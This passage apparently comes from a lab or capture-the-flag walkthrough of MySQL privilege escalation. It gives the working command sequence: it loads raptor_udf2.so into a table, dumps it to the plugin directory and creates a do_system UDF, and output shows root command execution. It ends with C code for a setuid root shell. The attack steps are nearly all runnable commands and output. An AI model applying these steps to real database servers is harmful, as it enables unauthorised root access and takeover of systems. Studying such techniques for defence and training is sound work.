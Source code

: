 ``` 
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)
```

- Copy the .so file to the plugin directory:

``` 
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.05 sec)
```

- Now you can create the UDF:

``` 
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)
```

- Confirm that it works:

``` 
mysql> select do_system('id > /tmp/out; chown smeagol.smeagol /tmp/out');
+------------------------------------------------------------+
| do_system('id > /tmp/out; chown smeagol.smeagol /tmp/out') |
+------------------------------------------------------------+
|                                                          0 |
+------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> \! cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```

Note that you can use *\\!* to run commands from within the MySQL shell.

- Finally, we want to gain a real root shell. A setuid shell is ideal for this. I placed the following C code inside a file called shell.c:

{% codeblock lang:c %}
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
{% endcodeblock %}
